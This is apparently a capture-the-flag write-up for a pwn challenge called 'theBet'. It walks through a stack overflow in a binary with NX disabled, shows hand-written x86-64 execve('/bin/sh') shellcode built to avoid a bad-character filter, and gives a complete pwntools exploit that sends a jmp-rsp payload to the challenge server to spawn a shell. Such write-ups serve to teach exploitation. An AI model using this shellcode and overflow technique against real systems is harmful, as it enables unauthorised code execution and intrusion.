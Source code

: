 # theBet

Challenge Points: 400

No of Solves:

Challenge Author: [d1g174l_f0r7r355](https://twitter.com/BhaskaraShravya)

This challenge was a shellcode based challenge, with a few bad characters in check. 

## Preliminary Analysis:
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : FULL

```

## Analyzing the binary:

### main().
```

char name[10];
char choice;
initialize();
puts("Welcome to the Bet! You are standing among the world's best lawyers, politicians and criminals. \n\nYou approach a young lawyer not more than 24 years of age. As you converse with him, you come to know about his reputation. The next moment you know, you find yourself debating which is better - Capital Punishment or Life Imprisonment. \n\nYou are of the opinion that Capital Punishment is better as a quick death would mean less pain as compared to life of solitude in the cell. Your friend believes otherwise. \n\nYou both decide on writing down your views and handing them over to a third party, (a criminal) so as to decide who's opinion is correct. \n\nThe criminal however states that the one who loses the debate shall either face Capital Punishment or Life Imprisonment depending on what the winning party chooses. \n\nGive us your name: ");
fgets(name, 11, stdin);
puts("\n1. Capital Punishment\n2. Life Imprisonment\nYour choice: ");

scanf("%c", &choice);
getchar();


if(choice == '1'){
Capital_Punishment(bad_chars);
}else if(choice == '2'){
Life_Imprisonment(bad_chars);
}else{
puts("That is not a valid choice\n");
exit(0);
}

setup_seccomp();
return 0;
```
We see that we are presented with two choices, `Capital_Punishment` and `Life_Imprisonment`. Also `bad_chars` is passed as an argument to each of these functions.

From the source code given, one can form the set of bad characters to be:
`bad_chars = {'\x0d', '\x50', '\x2e', '\xbb', '\xb0', '\x83', '\xf6', '\x10', '\xaa', '\xd2', '\x98', '\x99', '\x30', '\x31'}`.

Let us go ahead and check out each of the functions `Capital_Punishment` and `Life_Imprisonment`. 


### Capital_Punishment:

```
char description[30];

puts("Describe your argument: ");

len = read(0, description, 100);

for(i = 0; i<len; i++){
for(j = 0; j<14; j++){
if(description[i] == bad_chars[j]){
puts("\nI'm sorry you lost! You will be imprisoned for life.. :(\n");
exit(0);
}
}
}

```
From the above source code for `Capital_Punishment`, we see that if any character in our input string consists of one of the above `bad_chars`, the program will simply exit. Since NX is disabled, one can assume our payload to contain a shellcode. 

### Life_Imprisonment:
```
char description[30];

puts("Describe your argument: ");

len = read(0, description, 100);

for(i = 0; i<len; i++){
for(j = 0; j<14; j++){
if(description[i] == bad_chars[j]){
puts("\nI'm sorry you lost! You will be executed.. :(\n");
exit(0);
}
}
}

```
Similar to the source code of Capital_Punishment, our input is checked if it contains of the bad characters, and simply exits if it does. 


### seccomp:
**What is seccomp?**
One can assume a seccomp filter to have the following job! It is used to filter out and prevent use of bad system calls. At times seccomp filters are used to allow only `read()`, `write()` and `open()` syscalls. However, in the given challenge, upond observing closely at `setup_seccomp()`, we notice that `execve()` and `execveat()` are allowed, however none of the `read()`, `write()` or `open()` syscalls are allowed. 
```
int ret = 0;

ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(close), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(lseek), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(mprotect), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(execve), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(execveat), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(brk), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(writev), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(kill), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getuid), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(getgid), 0);
ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
ret |= seccomp_load(ctx);

  if (ret) {
    exit(1);
  }

```
Anyways, since `execve()` is allowed, our next goal is to construct a 64 bit execve shellcode, keeping in mind the bad characters which shouldn't be present in our input payload. 

## Writing the shellcode:

(Note: there could be many ways to write the same piece of shellcode and avoid the list of bad characters, however I will discuss my approach.)

Before we move onto shellcode scripting, let us make sure of the arguments to be placed into registers while making use of an execve syscall. 

For a 64 bit, execve syscall, 
 - `rax` : `0x3b` (syscall number)
 - `rdi` : `address containing "/bin/sh"`
 - `rsi` : `0x0`
 - `rdx` : `0x0`

```python=
shell = ''
shell += 'push rbx\n'
shell += 'push 0x0\n'			
shell += 'pop rsi\n'				# making sure rsi contains 0x0
shell += 'push rsi\n'
shell += 'pop rdx\n'				# making sure rdx contains 0x0
shell += 'push rbx\n'
shell += 'push 0x68732f\n'			# pushing '/sh\x00' onto the stack first
shell += 'push rsp\n'
shell += 'pop rbx\n'
shell += 'shl qword ptr [rbx], 0x20\n'	# left shifting by 32 bytes, with this we ensure "/sh\x00" is written as the upper 4 bytes and the result is stored in rbx.
shell += 'push 0x6e69622f\n'			# pushing '/bin' onto the stack
shell += 'pop rax\n'
shell += 'add qword ptr [rbx], rax\n'		# adding the '/bin' as the lower 4 bytes to rbx which contains '/sh\x00' as the upper 4 bytes. 
shell += 'push rbx\n'
shell += 'pop rdi\n'				# placing "/bin/sh\x00" into rdi
shell += 'push 0x3b\n'				# updating rax to contain syscall number
shell += 'pop rax\n'
shell += 'syscall\n'				# syscall
```

## Exploit:

```python=

from pwn import *

def shellcode():

	# execve syscall
	shell = ''
	shell += 'push rbx\n'
	shell += 'push 0x0\n'
	shell += 'pop rsi\n'
	shell += 'push rsi\n'
	shell += 'pop rdx\n'
	shell += 'push rbx\n'
	shell += 'push 0x68732f\n'
	shell += 'push rsp\n'
	shell += 'pop rbx\n'
	shell += 'shl qword ptr [rbx], 0x20\n'
	shell += 'push 0x6e69622f\n'
	shell += 'pop rax\n'
	shell += 'add qword ptr [rbx], rax\n'
	shell += 'push rbx\n'
	shell += 'pop rdi\n'
	shell += 'push 0x3b\n'
	shell += 'pop rax\n'
	shell += 'syscall\n'
	
	shell = asm(shell)
	print(disasm(shell))

	return shell

if __name__=="__main__":
	context.arch='amd64'
	#p = process('./theBet')
	p = remote('gc1.eng.run', 31795)
	#gdb.attach(p)
	
	p.recv()
	p.sendline('aaaa')
	p.recv()
	p.sendline('1')
	
	p.recv()
	pay = '\x90'*(0x28)
	pay += p64(0x000000000040127e)# jmp rsp
	pay += shellcode()
	print(len(pay))
	
	p.sendline(pay)
	
	p.interactive()
```


